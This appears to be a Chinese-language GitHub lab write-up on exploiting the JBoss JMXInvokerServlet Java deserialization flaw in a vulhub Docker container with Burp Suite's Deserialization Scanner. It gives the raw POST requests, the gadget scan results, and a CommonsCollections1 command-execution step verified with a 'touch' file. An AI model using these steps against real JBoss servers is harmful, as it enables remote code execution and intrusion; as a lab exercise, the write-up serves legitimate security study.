# Jboss_JMXInvokerServlet_Deserialization_RCE

![](./Jboss_JMXInvokerServlet_Deserialization_RCE.jpg)

## 使用Burp Suite利用Java反序列化漏洞



### 0x01 搭建Jboss JMXInvokerServlet 反序列化漏洞

#### 测试环境： JBoss JMXInvokerServlet 反序列化漏洞
#### 漏洞原理：JBoss在/invoker/JMXInvokerServlet请求中读取了用户传入的对象，然后我们利用Apache Commons Collections中的Gadget执行任意代码。

```
root@kali:~/vulhub/jboss/JMXInvokerServlet-deserialization# docker-compose up -d
jmxinvokerservlet-deserialization_jboss_1 is up-to-date

root@kali:~# docker ps -a
CONTAINER ID        IMAGE                      COMMAND                  CREATED             STATUS              PORTS                                      
65b3707b9419        vulhub/jboss:as-6.1.0      "/run.sh"                4 hours ago         Up 4 hours          0.0.0.0:8080->8080/tcp, 0.0.0.0:9990->999
```

## 0x02 访问/invoker/JMXInvokerServlet, 将post数据包发送到Deserialization Scanner -Manual testing

BurpSuite 历史记录，如果/invoker/JMXInvokerServlet路径存在，页面返回200状态码
```
POST /invoker/JMXInvokerServlet HTTP/1.1
Host: 10.10.20.166:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Cookie: JSESSIONID=8B6B65418F89E8857F4302AB85085A36
X-Forwarded-For: 127.0.0.1
Connection: close
Upgrade-Insecure-Requests: 1

aaaa
```
response返回 Java serialization data, version 5
文件头以aced0005737200246f72672e6a626f73开头

将/invoker/JMXInvokerServlet ,POST流量发送到DS插件里面
右击,点击 Send request to DS-Manual testing
![](./DS-Manual_testing.jpg)

### 设置序列化点
选择存在序列化的位置，由于JBoss在/invoker/JMXInvokerServlet请求中读取了用户传入的序列化对象.
设置aaaa为序列化点，全选aaaa
然后点击 Set Insertion Point
此时POST数据变成了 $aaaa$

```
POST /invoker/JMXInvokerServlet HTTP/1.1
Host: 10.10.20.166:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Cookie: JSESSIONID=8B6B65418F89E8857F4302AB85085A36
X-Forwarded-For: 127.0.0.1
Connection: close
Upgrade-Insecure-Requests: 1

§aaaa§
```

### 扫描$aaaa$是否存在序列化漏洞
![](./VULNERABLE.jpg)
点击 Attack

提示
```
SCANNING IN PROGRESS  //正在进行扫描
Scanning can go on approximately from 1 second up to 3 minutes, based on the number of vulnerable libraries founded
//根据创建的易受攻击的库的数量，扫描可以持续大约1秒到3分钟
```

稍等

```
Results:

Apache Commons Collections 3 (Sleep): Potentially VULNERABLE!!!
Spring Alternate Payload (Sleep): NOT vulnerable.
Apache Commons Collections 4 (Sleep): NOT vulnerable.
JSON (Sleep): NOT vulnerable.
Apache Commons Collections 3 Alternate payload 2 (Sleep): NOT vulnerable.
ROME (Sleep): NOT vulnerable.
Apache Commons Collections 4 Alternate payload (Sleep): NOT vulnerable.
Java 8 (up to Jdk8u20) (Sleep): NOT vulnerable.
Java 6 and Java 7 (up to Jdk7u21) (Sleep): Potentially VULNERABLE!!!
Hibernate 5 (Sleep): NOT vulnerable.
Commons BeanUtils (Sleep): NOT vulnerable.
Apache Commons Collections 3 Alternate payload 3 (Sleep): Potentially VULNERABLE!!!
Spring (Sleep): NOT vulnerable.
Apache Commons Collections 3 Alternate payload (Sleep): Potentially VULNERABLE!!!
END

IMPORTANT NOTE: High delayed networks may produce false positives!
```
可能存在危害的利用方法
```
Apache Commons Collections 3 (Sleep): Potentially VULNERABLE!!!   //可能有害！
Java 6 and Java 7 (up to Jdk7u21) (Sleep): Potentially VULNERABLE!!! //可能有害！
Apache Commons Collections 3 Alternate payload 3 (Sleep): Potentially VULNERABLE!!! //可能有害！
Apache Commons Collections 3 Alternate payload (Sleep): Potentially VULNERABLE!!!  //可能有害！
```

右击发送到 Send to Exploitation tab


默认
`CommonsCollections1 COMMAND`
改为
`CommonsCollections1 "touch /tmp/jas502n"`

点击 Attack

进入docker服务器，查看/tmp/jas502n文件是否创建成功
![](./jas502n.jpg)

```
root@kali:~/vulhub/jboss/JMXInvokerServlet-deserialization# docker ps -a
CONTAINER ID        IMAGE                      COMMAND                  CREATED             STATUS              PORTS                                            NAMES
65b3707b9419        vulhub/jboss:as-6.1.0      "/run.sh"                5 hours ago         Up 5 hours          0.0.0.0:8080->8080/tcp, 0.0.0.0:9990->9990/tcp   jmxinvokerservlet-deserialization_jboss_1

root@kali:~/vulhub/jboss/JMXInvokerServlet-deserialization# docker exec -it 65b3707b9419 /bin/bash
[root@65b3707b9419 /]# cd /tmp
[root@65b3707b9419 tmp]# ls
hsperfdata_root  jas502n
[root@65b3707b9419 tmp]# rm jas502n 
rm: remove regular empty file 'jas502n'? y
[root@65b3707b9419 tmp]# 
[root@65b3707b9419 tmp]# ls
hsperfdata_root
[root@65b3707b9419 tmp]# ls
hsperfdata_root  jas502n
[root@65b3707b9419 tmp]# 
```

## 参考链接：
https://github.com/vulhub/vulhub/blob/master/jboss/JMXInvokerServlet-deserialization/README.md

https://youtu.be/F3bPD_uGXKc
